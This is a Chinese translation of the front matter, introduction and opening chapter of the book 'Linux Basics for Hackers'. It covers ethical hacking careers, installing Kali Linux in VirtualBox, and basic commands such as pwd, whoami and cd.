**黑客LINUX基础**

**从学习Kali Linux中的网络、脚本和安全性开始**

LINUX BASICS FOR HACKERS

**Getting Started with Networking, Scripting, and Security in Kali by
OccupyTheWeb**

San Francisco

**LINUX BASICS FOR HACKERS.** Copyright © 2019 by OccupyTheWeb.

版权所有。未经版权所有者和出版商事先书面许可，不得以任何形式或通过电子或机械方式（包括影印，录制或任何信息存储或检索系统）复制或传播本作品的任何部分。

ISBN­10: 1­59327­855­1

ISBN­13: 978­1­59327­855­7

出版商：William Pollock

制作编辑：Serena Yang and Meg Sneeringer

封面插图： Josh Ellingson

内图设计：Octopod Studios

发展编辑：Liz Chadwick

技术评论员：Cliff Janzen

编辑：Barton D. Reed

合成：Serena Yang and Meg Sneeringer

校对员：Paula L. Fleming

索引者：JoAnne Burek

翻译：byr0nchan(HawooSec.Lab)、nJcx、ink247GG 、咸鱼、sara961

校对：byr0nchan

验证：

有关分发、翻译或批量销售的信息，请直接联系 No Starch出版社：

No Starch Press, Inc.

245 8th Street, San Francisco, CA 94103

phone: 1.415.863.9900; info\@nostarch.com

[www.nostarch.com](../TP1_backup/www.nostarch.com)

*Library of Congress Cataloging­in­Publication Data*

名字：OccupyTheWeb,作者

标题：Linux basics for hackers : getting started with networking,scripting,and
security in Kali/OccupyTheWeb

说明：第一版\|San Francisco : No Starch Press, Inc.,[2018].Identifiers: LCCN
2018030544 (print)\|LCCN 2018032646 (ebook)\|ISBN 9781593278564 (epub)\|ISBN
159327856X (epub)\|ISBN 9781593278557(print)\|ISBN 1593278551(print)\|ISBN
9781593278564(ebook)\|ISBN 159327856X(ebook)

主题：LCSH: Penetration testing (Computer security)\|Kali
Linux.\|Hackers.\|Operating systems (Computers)

分类：LCC QA76.9.A25 (ebook)\|LCC QA76.9.A25 O325 2018 (print)\|DDC 005.8­­dc23

LC 记录可在此网址获取 <https://lccn.loc.gov/2018030544>。

No Starch Press 和 No Starch Press 徽标是 No Starch Press
Inc.的注册商标。此处提及的其他产品和公司名称可能是其各自所有者的商标。我们不是在每次出现商标名称时使用商标符号，而是仅以编辑方式使用这些名称，并且为商标所有者的利益而使用，而无意侵犯商标。

本书中的信息按“As
Is”分发，不附带任何保证。虽然在准备这项工作时已经采取了一切预防措施，但作者和 No
Starch Press
均不对任何人或实体对由于包含在其中的信息，直接或间接造成的任何损失或损害承担任何责任。

绪 论
-----

黑客攻击是21世纪最重要的技能！我不轻易做出这种说法。近年来似乎每天早上新闻事件的标题重申了这一说法。各国正在互相监视以获取机密，网络犯罪分子正在窃取数十亿美元，要求赎金的数字蠕虫被释放，竞选对手正在影响彼此的选举，战斗人员相互拆台。这些都是黑客的工作，他们对我们日益数字化的世界的影响才刚刚凸显。

我决定在与成千上万有抱负的黑客通过NullByte（http://www.hackersarise.com）以及美国军事和情报机构（NSA，DIA，CIA和FBI）的几乎所有分支机构合作写这本书。这些经历告诉我，许多有抱负的黑客对Linux几乎没有任何经验，而这种缺乏经验是他们开始成为职业黑客的主要障碍。几乎所有最好的黑客工具都是用Linux编写的，因此一些基本的Linux技能是成为专业黑客的先决条件。我写这本书是为了帮助有抱负的黑客克服这个障碍。

黑客是IT领域的精英职业。因此，它需要对IT概念和技术进行广泛而详细的理解。在最基础的层次上，Linux是一项需求。如果你想把黑客和信息安全作为你的职业，我强烈建议你投入时间和精力来使用和理解它。

本书不适合经验丰富的黑客或经验丰富的Linux管理员。

相反，它适用于那些想要在黑客、网络安全和渗透测试这条激动人心的道路上起步的人而设计的。它也不是一篇关于Linux或黑客的完整论文，而是这些世界的起点。它从Linux的基本知识开始，并扩展到bash和Python的一些基本脚本。

在适当的情况下，我尝试使用来自黑客世界的示例来教授Linux原理。

在本简介中，我们将介绍信息安全的道德黑客行为的发展，我将带您完成安装虚拟机的过程，以便您可以在系统上安装Kali
Linux，而不会干扰您已经运行的操作系统。

这本书里有什么
--------------

在第一章中，您将熟悉Linux的基础知识:

第1章将让您学习使用文件系统和终端，并为您提供一些基本命令。

第2章介绍如何操作文本以查找，检查和更改软件和文件。

在第3章中，您将管理网络。您将扫描网络，查找连接信息，并通过屏蔽网络和DNS信息来伪装自己。

第4章教您添加、删除和更新软件，以及如何简化系统。

在第5章中，您将操纵文件和目录权限来控制谁可以访问什么，您还将学习一些权限提升技术。

第6章教您如何管理服务，包括启动和停止进程以及分配资源以便更好地控制。

在第7章中，您将管理环境变量以获得最佳性能，便利性甚至隐身性。您将找到并过滤变量，更改PATH变量以及创建新的环境变量。

第8章向您介绍了bash脚本，这是任何认真的黑客的主要工具。您将学习bash的基础知识并构建一个脚本来扫描您可能稍后渗透的目标端口。

第9章和第10章为您提供了一些基本的文件系统管理技能，向您展示如何压缩和存档文件以保持系统整洁，复制整个存储设备以及获取有关文件和连接磁盘的信息。

后面的章节深入探讨了黑客主题。在第11章中，您将使用和操作日志系统来获取目标活动的信息，并覆盖您自己的轨迹。

第12章向您展示了如何使用和滥用三个核心Linux服务：Apache
Web服务器、OpenSSH和MySQL。您将创建一个Web服务器，构建一个远程视频间谍，并了解数据库及其漏洞。

第13章将向您展示如何在代理服务器，Tor网络，VPN和加密电子邮件中保持安全和匿名。

第14章涉及无线网络。您将学习基本的网络命令，然后破解WiFi接入点并检测连接蓝牙信号。

第15章深入探讨了Linux本身，深层次了解内核如何工作以及如何滥用其驱动程序来传递恶意软件。

在第16章中，您将学习基本的调度技巧，以便自动化您的黑客脚本。

第17章将教你核心的Python概念，你将编写两个黑客工具：一个监视TCP /
IP连接的扫描程序和一个简单的密码破解程序。

### 什么是道德黑客？

近年来，随着信息安全领域的发展，道德黑客领域也出现了迅猛的发展，也被称为白帽黑客。道德黑客是试图渗透和利用一个系统，以找出其弱点和更好地保护它的实践做法。我将道德黑客分为两个主要部分：为合法信息安全公司进行渗透测试，以及为贵国的军事或情报机构工作。两者都是快速增长的领域，需求强劲。

#### *渗透测试*

随着组织越来越注重安全性并且安全漏洞的成本呈指数级增长，许多大型组织开始将安全服务外包出去。其中一项关键安全服务是渗透测试。渗透测试本质上是一个合法的、受委托的黑客行为，以证明公司的网络和系统的脆弱性。

 通常，组织首先进行漏洞评估，以发现其网络、操作系统和服务中的潜在漏洞。我强调是潜在的，因为此漏洞扫描包含大量误报（确定为漏洞的事实并非如此）。渗透测试人员的角色是试图破解或渗透这些漏洞。只有这样，组织才能知道漏洞是否真实，并决定投入时间和金钱来弥补漏洞。

#### *军事和间谍活动*

现在，世界上几乎每个国家都在进行网络间谍活动和网络战争。人们只需要浏览一下头条新闻，就会发现网络活动是监视和攻击军事和工业系统的选择方法。

黑客在这些军事和情报收集活动中起着至关重要的作用，随着时间的推移，这种情况才会更加真实。想象一下未来的战争，黑客可以获得对手的作战计划，并摧毁他们的电网、炼油厂和供水系统。这些活动现在每天都在进行。因此，黑客成为国家防御的关键组成部分。

### 为什么黑客使用LINUX

那么为什么黑客使用Linux而不是其他操作系统呢？主要是因为Linux通过几种不同的方法提供了更高级别的控制。

#### *Linux是开源的*

与Windows不同，Linux是开源的，这意味着您可以使用操作系统的源代码。因此，您可以随意更改和操作它。如果您试图使系统以它不希望的方式运行，那么能够操作源代码是必不可少的。

#### *Linux是透明的*

要有效地进行黑客攻击，您必须了解并理解您的操作系统，并在很大程度上了解您正在攻击的操作系统。Linux完全透明，这意味着我们可以查看和操作其所有工作部分。

Windows则不然。微软努力让它变得越来越难以了解其操作系统的内部工作方式，所以你永远不会真正知道“幕后”会发生什么，而在Linux中，你会直接看到操作系统的每一个组件。这使得使用Linux更加有效。

#### *Linux提供粒度控制*

Linux是细粒度的。这意味着您对系统几乎拥有无限的控制权。在Windows中，您只能控制Microsoft允许您控制的内容。在Linux中，一切都可以由终端控制，无论在最微小的级别或最宏观的级别。此外，Linux使任何脚本语言的脚本编写变得简单有效。

#### *多数黑客工具都是为Linux编写的*

超过90％的黑客工具都是为Linux编写的。当然也有例外，如Cain and
Abel以及Wikto，这些例外证明这一规则。即使在为Windows移植诸如Metasploit或nmap等黑客工具时，并非所有功能都能从Linux移植。

#### *未来属于Linux/Unix*

这似乎是一个激进的陈述，但我坚信信息技术的未来属于Linux和Unix系统。微软在20世纪80年代和90年代曾风光一时，但它的增长正在放缓并停滞。

自互联网诞生以来，由于其稳定性、可靠性和稳健性，Linux /
Unix一直是Web服务器的首选操作系统。 即便在今天，Linux /
Unix仍在三分之二的Web服务器中使用并占据市场主导地位。路由器，交换机和其他设备中的嵌入式系统几乎总是使用Linux内核，而虚拟化世界则由Linux主导，VMware和Citrix都基于Linux内核构建。

超过80％的移动设备运行Unix或Linux（iOS是Unix，Android是Linux），所以如果您认为计算机的未来在于平板电脑和手机等移动设备（否则很难争辩），那么未来就是Unix
/ Linux。Microsoft Windows仅占移动设备市场的7％**①**。那是你想要的情形吗？

1.  2019年1月10日微软通过自己的官方博客宣布放弃Win10
    Mobile，于2019年12月终止支持。

### 下载KALI LINUX

在开始之前，您需要下载并在计算机上安装Kali
Linux。这是我们将在本书中使用的Linux发行版。Linux最初由Linus
Torvalds于1991年开发，作为Unix的开源替代品。由于它是开源的，志愿者开发人员对内核、实用程序和应用程序进行提交编码。这意味着没有凌驾于其之上的公司实体来监督发展，因此，通常缺乏公约和标准化。

Kali Linux由Offensive
Security开发，是一个基于Linux发行版的黑客操作系统。Linux有很多发行版，而Debian是最好的发行版之一。您可能最熟悉Ubuntu作为Linux的流行桌面发行版。Ubuntu也是基于Debian构建的。其他发行版包括Red
Hat，CentOS，Mint，Arch和SUSE。虽然它们都共享相同的Linux内核（控制CPU，RAM等操作系统的核心），但每个内核都有自己的实用程序、应用程序和用于不同目的的图形界面选择（GNOME，KDE和其他）。因此，Linux的这些发行版中的每一个外观和感觉都略有不同。Kali专为渗透测试人员和黑客而设计，并配有大量黑客工具。

我强烈建议您在本书中使用Kali。虽然您可以使用其他发行版，但您可能需要下载并安装我们将使用的各种工具，这可能意味着可能需要花费数小时去下载和安装工具。此外，如果该发行版不是基于Debian构建的，则可能存在其他细微差别。您可以从https://www.kali.org/下载并安装Kali。

 在主页上，单击页面顶部的“Downloads”链接。在“Kali Linux
Downloads”页面上，您将面临多种下载选择。选择正确的下载非常重要。在表的左侧，您将看到镜像名称，该名称是链接下载的版本的名称。例如，我看到的一个镜像名称列表是Kali
Linux 64 Bit，这意味着它是完整的Kali Linux并且适用于64位系统 -
大多数现代系统使用64位Intel或AMD CPU。要确定系统上的CPU类型，请转至
控制面板▸系统和安全性▸系统，应列出该系统信息。如果您的系统是64位，请下载并安装64位版本的完整Kali（不是Light或Lxde，或任何其他替代方案）。

如果您运行的是具有32位CPU的旧计算机，则需要安装32位版本，该版本显示在页面下方。

您可以选择通过HTTP或Torrent下载。如果您选择HTTP，Kali将直接下载到您的系统，就像任何下载一样，它将被放置在您的下载文件夹中。Torrent（bt）下载是许多文件共享站点使用的P2P下载。你需要像BitTorrent这样的种子应用程序才能做到这一点。然后，Kali文件将下载到torrenting应用程序存储其下载的文件夹中。

还有其他类型的CPU的其他版本，例如在许多移动设备中常见的ARM体系架构。如果您使用的是树莓派、平板电脑或其他移动设备（手机用户可能更喜欢Kali
NetHunter），请确保下载并安装ARM架构版本的Kali，方法是向下滚动并单击以下载和安装Kali
ARM映像。

您已经下载了Kali，但在安装任何软件之前，我想谈谈虚拟机。通常，对于初学者来说，将Kali安装到虚拟机中是学习和练习的最佳解决方案。

### 虚拟机

虚拟机（VM）技术允许您从笔记本电脑或台式机等硬件上运行多个操作系统。这意味着您可以继续运行您熟悉的Windows或MacOS操作系统，并在该操作系统中运行Kali
Linux虚拟机。您不需要覆盖现有的操作系统来学习Linux。

VMware，Oracle，Microsoft和其他供应商提供了大量虚拟机应用程序。这些都很好用，但在这里我将向您展示如何下载和安装Oracle的免费VirtualBox。

#### *安装VirtualBox*

你可以从<https://www.virtualbox.org/>下载VirtualBox，如图1所示，单击左侧菜单中的下载链接，并为计算机当前操作系统选择VirtualBox安装包，该操作系统将承载VirtualBox
VM。请务必下载最新版本。

*图1:VirtualBox主页*

下载完成后，单击setup文件，您将看到一个熟悉的安装向导，如图2所示。

*图2:安装向导对话框*

单击**Next**，您应该会看到自定义安装设置屏幕，如图3中所示。



*图3:自定义设置对话框*

在此屏幕上，只需单击**Next**。继续单击**Next**，直到到达网络接口警告屏幕，然后单击**Yes**。

单击**Install**开始该过程。在此过程中，可能会多次提示您安装设备软件。这些是虚拟机通信所需的虚拟网络设备。单击**Install**。

安装完成后，单击**Finish**。

#### *设置虚拟机*

现在让我们开始使用您的虚拟机。VirtualBox应该在安装后打开 -
如果没有，则手动打开它 - 你应该看到VirtualBox Manager的欢迎，如图4所示。

*图4: VirtualBox Manager*

由于我们将使用Kali Linux镜像创建新的虚拟机，因此请单击左上角的“新建”。
这将打开图5中所示的Create Virtual Machine对话框。



*图5: Create Virtual Machine对话框*

给你的机器命名（任何名称都可以，但我只是使用Kali）然后从“**Type**”下拉菜单中选择Linux。
最后，从第三个下拉菜单中选择Debian（64bit）（除非您使用的是32位版本的Kali，在这种情况下选择Debian
32bit版本）。单击“**Next**”，您将看到如图6所示的屏幕。



*图6: 分配内存*

在这里，您需要选择要为此新虚拟机分配多少RAM。

根据经验，我不建议使用超过总系统内存RAM的25％。这意味着如果您在物理系统或主机系统上安装了4GB，则为虚拟机选择仅1GB，如果物理系统上只有16GB，则选择4GB。您为虚拟机提供的RAM越多，运行的速度越快。虽速度越快，但您还必须为主机操作系统和您可能希望同时运行的任何其他虚拟机留下足够的RAM。当您不使用此虚拟机时，它们将不使用任何RAM，但它们将使用硬盘空间。

单击**Next**，您将看到硬盘屏幕。选择“**Create Virtual Hard
Disk**”，单击“**Create**”。

在下一个屏幕中，您可以决定是要将要创建的硬盘动态分配还是以固定大小分配。如果选择**动态分配**，系统将不会占用您为虚拟硬盘分配的最大大小，直到需要时，它为主机系统节省更多未使用的硬盘空间。我建议你选择动态分配。

单击**Next**，您将选择要分配给VM的硬盘空间量以及VM的位置（请参见图7）。

*图7: 分配硬盘空间*

默认值为8GB。我通常发现它有点小，建议你至少分配20-25GB。请记住，如果您选择动态分配硬盘空间，那么直到您需要它时，它才会使用该空间，并且在已经分配好硬盘空间之后再扩展它可能比较棘手，所以最好还是选择偏高的空间。

单击**Create**，就可以开始了!

#### *在VM上安装Kali*

此时，您应该看到如图8所示的屏幕。现在您需要安装Kali。请注意，在VirtualBox
Manager的左侧，您应该看到Kali
VM已关闭的指示。单击**Start**按钮（绿色箭头图标）。



*图8:VirtualBox欢迎屏幕*

然后，VirtualBox
Manager将询问在哪里可以找到启动盘。您已经下载了扩展名为.iso的磁盘映像，该映像应位于您的Downloads文件夹中（如果您使用torrent下载Kali，则.iso文件将位于您的Torrenting应用程序的Downloads文件夹中）。单击右侧的文件夹图标，导航到Downloads文件夹，然后选择Kali映像文件（参见图9）。

*图9:选择启动盘*

然后单击**Start**。恭喜，您刚刚在虚拟机上安装了Kali Linux！

#### *设置KALI*

Kali现在将打开如图10所示的屏幕，为您提供多种启动选择。我建议为初学者使用图形安装**(graphical
install)**。使用键盘键导航菜单。

如果在将Kali安装到VirtualBox时出现错误，可能是因为您没有在硬件系统的BIOS中启用虚拟化。每个系统及其BIOS略有不同，因此请与您的制造商联系或在线搜索您的硬件系统和BIOS的解决方案。
此外，在Windows系统上，您可能需要禁用任何具有竞争的虚拟化软件，如HyperV。同样，您的系统的互联网搜索引擎应该能够指导您这样做。

*图10:选择install方法*

接下来会要求您选择语言。确保选择最适合的语言，然后单击**Continue**。接下来，选择您的位置，单击**Continue**，然后选择键盘布局。

单击**Continue**时，VirtualBox将执行检测硬件和网络适配器的过程。只要耐心等待。最终，您将看到一个要求您配置网络的屏幕，如图11所示。



*图11:输入主机名*

它要求输入的第一项是您的主机名称。你可以随心所欲地命名，但我用默认的“kali”作为名字。

接下来，系统会要求您输入域名。没有必要在这里输入任何东西。单击**Continue**。下一个屏幕非常重要，如图12所示。在这里，系统会要求您输入要用于root用户的密码。

*图12:设置root密码*

Linux中的root用户是强大的系统管理员。您可以使用任何您认为安全的密码。如果这是我们在互联网上使用的物理系统，我建议您使用非常长且复杂的密码来限制攻击者破解它的能力。由于这是人们在没有首先访问主机操作系统的情况下无法访问的虚拟机，因此在此虚拟机上进行密码验证并不重要，但您仍应明智地选择。

单击**Continue**继续，系统将要求您设置时区。这样做，然后继续。

下一个屏幕询问关于分区磁盘（分区就是硬盘的一部分）。选择**Guided – use entire
disk**，Kali将检测您的硬盘并自动设置分区。

然后，Kali会警告您，您选择的磁盘上的所有数据都将被删除，但别担心！这是一个虚拟磁盘，磁盘是新的并且是空的，所以这实际上不会做任何事情。单击**Continue**继续。

Kali现在会询问您是希望将所有文件放在一个分区中，还是想要单独的分区。如果这是一个生产系统，您可能会为/
home，/ var和/
tmp选择单独的分区，但考虑到我们将其用作虚拟环境中的学习系统，您可以安全地选择将全部文件放在一个分区中。

现在，将询问您是否将更改写入磁盘。选择**Finish
partitioning**并将更改写入磁盘。Kali将再次提示您是否要将更改写入磁盘，选择**Yes**并单击**Continue**继续（参见图13）。

*图13:将更改写入磁盘*

Kali现在将开始安装操作系统。这可能需要一段时间，所以请耐心等待。现在是时候休息一下，喝上自己喜欢的饮料吧。

安装完成后，系统将提示您是否要使用网络镜像。这真的没有必要，所以点击**No**。

然后Kali将提示您是否要安装**GRUB（Grand Unified
Bootloader）**，如图14所示。引导加载程序使您可以选择不同的操作系统启动，这意味着当你启动你的机器，你可以启动 Kali或其他操作系统。选择**Yes**并单击**Continue**继续。

*图14:安装GRUB*

在下一个屏幕上，系统将提示您是自动还是手动安装GRUB引导加载程序。由于原因尚不清楚，如果您选择第二个选项，Kali将倾向于挂起并在安装后显示空白屏幕。选择手动输入设备**Enter
device manually**，如图15所示。

*图15:手动输入设备*

在下面的屏幕上，选择GRUB引导加载程序应安装的驱动器（它可能类似于/dev/sda）。单击进入下一个屏幕，该屏幕应告知您安装已完成。

恭喜！你已经安装了Kali。单击**Continue**继续。Kali将尝试重新启动，在您最终遇到Kali
2019的登录屏幕之前，您将看到许多代码行穿过一个空白的黑色屏幕，然后如图16所示。



*图16:Kali登录屏幕*

以root身份登录，系统将询问您的密码。输入您为root用户选择的密码。

以root身份登录后，您将看到Kali Linux桌面，如图17中所示。



*图17:Kali主屏幕*

您现在已准备好开始进入令人兴奋的黑客攻击领域！欢迎！

1
-

开始学习基础知识
----------------

GETTING STARTED WITH THE BASICS

从本质上而言，黑客就是行动者。我们想要触摸和玩弄一些东西，我们也希望创造并且有时可能会破坏一些事物。在我们能够做我们最喜欢的事情之前，我们中很少有人想要阅读信息技术理论的长篇大论：黑客攻击。考虑到这一点，本章旨在为您提供一些基本技能，帮助您在Kali中启动和运行。现在！

在本章中，我们不会详细介绍任何一个概念 -
我们将覆盖足够的内容，让您在黑客的操作系统中进行游戏和探索：Linux。我们将为后面的章节保存更深入的讨论。

### 介绍术语和概念

在开始我们的黑客Linux基础知识奇妙世界之旅之前，我想介绍几个术语，这些术语应该澄清本章后面讨论的一些概念。

**二进制文件**此术语是指可以执行的文件，类似于Windows中的可执行文件。
二进制文件通常位于/
usr/bin或usr/sbin目录中，包括ps，cat，ls和cd等实用程序（我们将在本章中介绍所有四个）以及无线应用程序黑客工具aircrackng和入侵检测系统（IDS）Snort。

**区分大小写**与Windows不同，Linux区分大小写。
这意味着**Desktop**与**desktop**不同，与**DeskTop**不同。
其中每个都代表不同的文件或目录名称。许多来自Windows环境的人都会发现这令人沮丧。
如果您收到错误消息“找不到文件或目录”（“**file or directory not
found**”），并且您确定文件或目录存在，则可能需要检查您的大小写。

**目录**这与Windows中的文件夹相同。目录提供了一种组织文件的方式，通常是采用分层方法。

**Home**每个用户都有自己的/ home目录，这通常是默认情况下保存您创建的文件的位置。

**Kali
Linux**是专为渗透测试而设计的Linux发行版。它预装了数百种工具，可以节省您自己下载和安装它们所需的时间。在撰写本文时，我将使用最新版本的Kali：Kali
2018.2，于2018年4月首次发布。

**root**与几乎所有操作系统一样，Linux拥有管理员或超级用户帐户，专为可以在系统上执行任何操作的受信任人员使用而设计。这包括重新配置系统，添加用户和更改密码等内容。在Linux中，该帐户称为root。作为黑客或测试者，您通常会使用root帐户来控制系统。实际上，许多黑客工具都要求您使用root帐户。

**脚本**这是在解释环境中运行的一系列命令，可将每行转换为源代码。许多黑客工具都是简单的脚本。
脚本可以使用bash解释器或任何其他脚本语言解释器运行，例如Python，Perl或Ruby。Python是目前黑客中最受欢迎的解释器。

**Shell**这是一个在Linux中运行命令的环境和解释器。最广泛使用的shell是bash，它代表Bourneagain
shell，但其他流行的shell包括C shell和Z shell。我将在本书中专门使用bash shell。

**终端(**Terminal**)**这是命令行界面（CLI）。

有了这些基础知识，我们将尝试有条不紊地强化成为黑客或渗透测试人员所需的基本Linux技能。在第一章中，我将引导您开始使用Kali
Linux。

### KALI之旅

一旦你启动Kali，你就会看到一个登录界面，如图1-1所示。使用**root**帐户用户名*root*和默认密码*toor*登录。



*图1­1: 使用root帐户登录Kali*

您现在应该可以访问您的Kali桌面（参见图1-2）。
我们将快速查看桌面的两个最基本的方面：终端接口和文件结构。

*图1­2: Kali 桌面*

#### *终端*

使用Kali的第一步是打开终端，这是我们将在本书中使用的命令行界面。在Kali
Linux中，您将在桌面底部找到终端的图标。双击此图标以打开终端或**CTRL­ALT­T**。您的新终端应如图1-3所示。

*图1­3: Kali终端*

此终端打开命令行环境（称为shell），使您可以在底层操作系统上运行命令并编写脚本。虽然Linux有许多不同的shell环境，但最受欢迎的是**bash
shell**，它也是Kali和许多其他Linux发行版中的默认shell。

要更改密码，可以使用命令**passwd**。

#### *Linux文件系统*

Linux文件系统结构与Windows有些不同。Linux在文件系统的基础上没有物理驱动器（例如C：驱动器），而是使用逻辑文件系统。在文件系统结构的最顶层是/，它通常被称为文件系统的根，就好像它是一个倒置树（见图1-4）。请记住，这与root用户不同。这些术语起初可能看起来令人困惑，但是一旦习惯了Linux，它们就会变得更容易区分。



*图1­4: Linux 文件系统*

文件系统的根（/）位于文件系统目录树的顶部，以下是要了解的最重要的子目录：

**/root** root用户的主目录

**/etc** 通常包含Linux配置文件 - 控制程序启动时间和方式的文件

**/home** 用户的主目录

**/mnt** 将其他文件系统附加或安装到文件系统的位置

**/media** CD和USB设备通常连接或安装到文件系统的位置

**/bin** 其中包含应用程序二进制文件（相当于Microsoft Windows中的可执行文件）

**/lib** lib库文件（与Windows DLL类似的共享程序）

在本书中，我们将花更多时间在这些关键目录上。了解这些一级目录对于从命令行导航文件系统非常重要。

在开始之前，知道在执行例行任务时不应该以root用户身份登录也很重要，因为当你以root身份登录时，任何攻击你的系统的人（是的，黑客有时会被黑客入侵）会立即获得root权限，从而“拥有”你的系统。在启动常规应用程序，浏览Web，运行Wireshark等工具时以常规用户身份登录。

### LINUX基本命令

首先，让我们看看一些基本命令，它们将帮助您在Linux中启动和运行。

#### *用pwd查看当前目录*

与在Windows或macOS等图形用户界面（GUI）环境中工作的情况不同，Linux中的命令行并不总是能够明确显示您当前所在的目录。要导航到新目录，通常需要知道你现在的位置。显示当前工作目录使用命令**pwd**。

在目录结构中的位置输入**pwd**。在您的终端输入密码以查看您的所在目录位置：

kali\>pwd

/root

在这种情况下，Linux返回/root，告诉我当前在root用户的目录中。并且因为您在启动Linux时以root用户身份登录，所以您也应该位于root用户的目录中，该目录位于文件系统结构顶部（/）的一级目录。

如果您在另一个目录中，pwd将返回该目录名称。

#### *使用whoami查看登录用户*

在Linux中，超级用户或系统管理员名为root，它具有添加用户、更改密码、更改权限等所需的所有系统权限。显然，您不希望任何人有能力进行此类更改；您希望有人可以信任并且对操作系统有正确的了解。作为黑客，您通常需要拥有所有这些权限来运行您需要的程序和命令（除非您拥有root权限，否则许多黑客工具将无法运行），因此您需要以root用户身份登录。

如果您忘记了以root用户身份还是以其他用户身份登录，则可以使用**whoami**命令查看您登录的用户：

kali\>whoami

root

如果我以其他用户身份登录，例如我的个人帐户，那么whoami会返回我的用户名，如下所示：

kali \>whoami

OTW

#### *浏览Linux文件系统*

从终端导航到文件系统是一项重要的Linux技能。要完成任何工作，您需要能够寻找位于其他目录中的应用程序、文件和目录。在基于GUI的系统中，您可以直观地看到目录，但是当您使用命令行界面时，结构完全基于文本，导航文件系统意味着使用某些命令。

##### 使用cd更改目录

要从终端更改目录，请使用更改目录命令**cd**。例如，以下是如何进入用于存储配置文件的/
etc目录：

kali \>cd /etc

root\@kali:/etc\#

提示符更改为**root \@ kali:/ etc**，表示我们位于/
etc目录中。我们可以通过输入**pwd**来确认：

